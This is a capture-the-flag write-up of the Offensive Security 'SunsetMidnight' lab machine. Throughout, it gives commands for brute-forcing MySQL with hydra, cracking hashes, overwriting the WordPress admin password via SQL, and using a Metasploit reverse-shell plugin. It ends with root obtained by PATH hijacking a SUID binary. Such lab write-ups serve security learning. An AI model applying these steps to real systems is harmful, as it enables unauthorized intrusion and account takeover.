

# SunsetMidnight
**Date:** February 26th 2023

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Intermediate

<br>


<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 14
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, InteractiveClient, Support41Auth, Speaks41ProtocolOld, FoundRows, SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsLoadDataLocal, ODBCClient, SupportsCompression, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: RNm[`PQ&dJ$q1=|}~$4t
|_  Auth Plugin Name: mysql_native_password
```

Noticing the redirect on port 80 I go ahead and add that to my hosts file:

```
192.168.136.88	sunset-midnight
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 40 -r -x php,txt,html -w dir-med.txt`

```
So many results and none of them are actually useful except probably the admin login page and maybe xmlrpc.php if we can use it for brute forcing.
```

<br>

## Website Digging

Visiting the main page:


Looking at robots.txt:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

I run a wpscan to see what it can find for us:

`wpscan --url http://sunset-midnight --api-token TOKEN --enumerate`

`wpscan --url http://sunset-midnight -v -t 20 -e vt,tt,u,vp,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive --api-token TOKEN`

```
[+] XML-RPC seems to be enabled: http://sunset-midnight/xmlrpc.php
[+] Upload directory has listing enabled: http://sunset-midnight/wp-content/uploads/
[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
[i] User(s) Identified:
[+] admin
```

Let's see if we can brute force the admin account:

`wpscan --url http://$ip/wp-login.php -v --passwords rockyou.txt --usernames admin --max-threads 50 --api-token TOKEN`

I leave that going in the background and move on to checking out the open MySQL port.

<br>

## MySQL Digging

I try and connect over as root and admin with a couple common passwords but no luck.

I start up hydra to see if we can brute force root and get a result back very quickly:

`hydra -l root -P rockyou.txt $ip mysql`


Looking at the wp_users table in the wordpress_db database gives us the admin hash:

```
MariaDB [wordpress_db]> select * from wp_users;
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
```

I start up hashcat to see if that hash is crackable:

`hashcat -m 400 -w 3 -D 1,2 hash.txt rockyou.txt`

No luck.

I switch over to the mysql database and look at the users table and find the root user we already have, and also another user named jose:

```
| localhost | jose | *3AA64DAE22DBC5B7ACC28062EB18EFB7046D808C
```

I also run this hash through hashcat but it doesn't crack either.

I made the mistake of trying to use hydra with the jose user and it blocked me from the database and I can no longer log back in as root. Hopefully this automatically clears after however minutes and I don't need to reset the box.

```
ERROR 1129 (HY000): Host '192.168.49.136' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

I waited about 10 minutes and it still was locked so I just reverted the box.

I check to see if we can use the user defined function escalation method (searchsploit -m 1518) but the filesystem is read only unfortunately:

```
ERROR 1 (HY000): Can't create/write to file '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor.so' (Errcode: 30 "Read-only file system")
```

It suddenly dawns on me that we can access the MySQL database as root and that I can probably just update the admin users password for the website:

```
update wp_users set user_pass = MD5('admin') where wp_users.user_login = 'admin';
```


Logging in:


And it works:


<br>

## System Access

Alright let's see if we can use any plugins or templates to get a shell.

I know there's a Metasploit module I've used before that will upload a malicious plugin to get a reverse shell so let's start there.

I get it configured and run it, but it fails saying it couldn't upload the payload:


Checking if that's true I look at the installed plugins on the WordPress admin page and it shows it's there, which is odd:


It looks to me that it failed because the plugin didn't get activated. So I click the activate button next to it and then start up a multi/handler listener in Metasploit:



I open up a web browser and navigate to our plugin's folder:


And then click on the tsfAVBoevj.php file which should connect back to our multi/handler listener:


I quickly fix my shell with python3 and move on to system enumeration.

<br>

## System Enumeration

The wp-config.php file contains a password hash for jose, which doesn't crack with rockyou:

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'jose' );

/** MySQL database password */
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );
```

Checking `sudo -l` shows we need a password.

The only 2 users on the system with a shell are:

`cat /etc/passwd | grep bash`

```
root:x:0:0:root:/root:/bin/bash
jose:x:1000:1000:jose,,,:/home/jose:/bin/bash
```

Heading over to the jose home directory shows us our local.txt flag:

`wc -c /home/jose/local.txt`

```
33 /home/jose/local.txt
```

Nothing else in his home directory looks useful at the moment.

Looking for capabilities we can exploit with `getcap -r / 2>/dev/null` doesn't give us anything interesting.

Checking out /etc/crontab and our own crontab -l shows nothing.

<br>

## Root

Looking for misconfigured SUID files with `find / -perm /4000 2>/dev/null` gives us one binary that isn't a standard SUID file:

```
-rwsr-sr-x 1 root root 16768 Jul 18  2020 /usr/bin/status
```

Running it shows us the status of the SSH server:


I check to see if I can tell what it's doing by running a `strings` on it and see it just calls service ssh status without specifying the full path to service:

```
[]A\A]A^A_
Status of the SSH server:
service ssh status
;*3$"
```

Let's try a little path manipulation to have it run our own malicious version of the service command instead. I change over to /tmp and create a file called service that just has /usr/bin/bash in it, and then make it executable. I also modify my path to have /tmp show up first so that when I run /usr/bin/status it will find my file instead of the legit service file:


And we're in!

Over in the /root directory is the source code to the status command we just exploited in case you want to see what's happening with it:

```c
#include <stdio.h>

int main(){
    setuid(0);
    setgid(0);
    printf("Status of the SSH server:");
    system("service ssh status");
}
```

We find our proof.txt flag waiting in the /root directory as well:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

We also have a root.txt that contains some fun ASCII art:


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **wpscan** to enumerate users on the WordPress site we found
- Brute forcing our way into the MySQL server using **hydra**
- Attempting to crack the admin users hash for the WordPress website that we found in the MySQL database using **hashcat**, but not having any luck
- Simply running an **update** SQL command to update the admin users password to one of our choosing and then logging into the WordPress site
- Using a **Metasploit** module to upload a malicious reverse shell plugin and then using it to gain our initial foothold on the system
- Finding a non-standard **SUID** file that's configured to run the service command as root, but it doesn't specify the path to the service command when doing so
- Creating our own **service** command that will run a bash shell, and then modifying our path so that it runs our version of service instead of the legit one to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
